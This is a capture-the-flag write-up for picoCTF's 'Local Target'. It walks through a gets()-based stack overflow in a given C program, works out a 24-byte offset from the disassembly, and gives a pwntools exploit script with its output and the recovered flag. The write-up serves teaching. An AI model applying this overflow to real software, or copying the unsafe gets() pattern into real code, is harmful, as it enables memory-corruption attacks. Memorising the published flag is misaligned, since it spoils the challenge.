

# Local Target



## Source Code analysis

Take a brief look at the code, we know that we need to overwrite the `num` variable to 65. `gets` can easily overwrite the stack as it only ends when it sees a EOF or a new line character.

```bash
#include <stdio.h>
#include <stdlib.h>

int main(){
  FILE *fptr;
  char c;

  char input[16];
  int num = 64;
  
  printf("Enter a string: ");
  fflush(stdout);
  gets(input);
  printf("\n");
  
  printf("num is %d\n", num);
  fflush(stdout);
  
  if( num == 65 ){
    printf("You win!\n");
    fflush(stdout);
    // Open file
    fptr = fopen("flag.txt", "r");
    if (fptr == NULL)
    {
        printf("Cannot open file.\n");
        fflush(stdout);
        exit(0);
    }

    // Read contents from file
    c = fgetc(fptr);
    while (c != EOF)
    {
        printf ("%c", c);
        c = fgetc(fptr);
    }
    fflush(stdout);

    printf("\n");
    fflush(stdout);
    fclose(fptr);
    exit(0);
  }
  
  printf("Bye!\n");
  fflush(stdout);
}
```

## Offset Calculation

To figure out the offset, we can disassemble the `main` function

```bash
Dump of assembler code for function main:
   0x0000000000401236 <+0>:     endbr64
   0x000000000040123a <+4>:     push   rbp
   0x000000000040123b <+5>:     mov    rbp,rsp
   0x000000000040123e <+8>:     sub    rsp,0x20
   0x0000000000401242 <+12>:    mov    DWORD PTR [rbp-0x8],0x40
   0x0000000000401249 <+19>:    lea    rdi,[rip+0xdb4]        # 0x402004
   0x0000000000401250 <+26>:    mov    eax,0x0
   0x0000000000401255 <+31>:    call   0x4010f0 <printf@plt>
   0x000000000040125a <+36>:    mov    rax,QWORD PTR [rip+0x2e0f]        # 0x404070 <stdout@@GLIBC_2.2.5>
   0x0000000000401261 <+43>:    mov    rdi,rax
   0x0000000000401264 <+46>:    call   0x401120 <fflush@plt>
   0x0000000000401269 <+51>:    lea    rax,[rbp-0x20]
   0x000000000040126d <+55>:    mov    rdi,rax
   0x0000000000401270 <+58>:    mov    eax,0x0
   0x0000000000401275 <+63>:    call   0x401110 <gets@plt>
   0x000000000040127a <+68>:    mov    edi,0xa
   0x000000000040127f <+73>:    call   0x4010c0 <putchar@plt>
   0x0000000000401284 <+78>:    mov    eax,DWORD PTR [rbp-0x8]
   0x0000000000401287 <+81>:    mov    esi,eax
   0x0000000000401289 <+83>:    lea    rdi,[rip+0xd85]        # 0x402015
   0x0000000000401290 <+90>:    mov    eax,0x0
   0x0000000000401295 <+95>:    call   0x4010f0 <printf@plt>
   0x000000000040129a <+100>:   mov    rax,QWORD PTR [rip+0x2dcf]        # 0x404070 <stdout@@GLIBC_2.2.5>
   0x00000000004012a1 <+107>:   mov    rdi,rax
   0x00000000004012a4 <+110>:   call   0x401120 <fflush@plt>
   0x00000000004012a9 <+115>:   cmp    DWORD PTR [rbp-0x8],0x41
   0x00000000004012ad <+119>:   jne    0x401380 <main+330>

```

To be specific, let’s focus on the `num` variable and the buffer of `gets`. We can see that the buffer of gets in `rbp-0x20`, and `num` is located at `rbp-0X8`, so the padding we need is 24 (`0x20-0x8`)

```bash
   0x000000000040123a <+4>:     push   rbp
   0x000000000040123b <+5>:     mov    rbp,rsp
   0x000000000040123e <+8>:     sub    rsp,0x20
   0x0000000000401242 <+12>:    mov    DWORD PTR [rbp-0x8],0x40
   ...
   0x0000000000401269 <+51>:    lea    rax,[rbp-0x20]
   0x000000000040126d <+55>:    mov    rdi,rax
   0x0000000000401270 <+58>:    mov    eax,0x0
   0x0000000000401275 <+63>:    call   0x401110 <gets@plt>
   
  ...
   0x00000000004012a9 <+115>:   cmp    DWORD PTR [rbp-0x8],0x41
   0x00000000004012ad <+119>:   jne    0x401380 <main+330>
```

## Exploitation

With this, we can write a Python script that helps us the craft the payload

```bash
from pwn import *

def start(argv=[], *a, **kwargs):
    if args.GDB:
        return gdb.debug([exe]+argv, gdbscript=gdbscript, *a, **kwargs)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kwargs)
    else:
       return process([exe]+argv, *a, **kwargs)

exe='./local-target'
elf=context.binary=ELF(exe)
context.log_level='debug'

payload = 'A'*24+ '\x41'

io=start()

io.sendlineafter(b'Enter a string: ', encode(payload))

io.interactive()
```

Run the script locally and we can see the ‘You win!’ message

```bash
└─$ python exploit.py 
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
  
io.sendlineafter(b'Enter a string: ', encode(payload))
[DEBUG] Received 0x10 bytes:
    b'Enter a string: '
[DEBUG] Sent 0x1a bytes:
    b'AAAAAAAAAAAAAAAAAAAAAAAAA\n'
[*] Switching to interactive mode
[DEBUG] Received 0x26 bytes:
    b'\n'
    b'num is 65\n'
    b'You win!\n'
    b'Cannot open file.\n'

num is 65
You win!
Cannot open file.
[*] Got EOF while reading in interactive
```

Run the script to send the payload to the remote instance and get flag

```bash
└─$ python exploit.py REMOTE <Host> <Port>
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
  io.sendlineafter(b'Enter a string: ', encode(payload))
[DEBUG] Received 0x10 bytes:
    b'Enter a string: '
[DEBUG] Sent 0x1a bytes:
    b'AAAAAAAAAAAAAAAAAAAAAAAAA\n'
[*] Switching to interactive mode
[DEBUG] Received 0x36 bytes:
    b'\n'
    b'num is 65\n'
    b'You win!\n'
    b'picoCTF{l0c4l5_1n_5c0p3_fee8ef05}\n'

num is 65
You win!
picoCTF{l0c4l5_1n_5c0p3_fee8ef05}
```

Flag: `picoCTF{l0c4l5_1n_5c0p3_fee8ef05}`
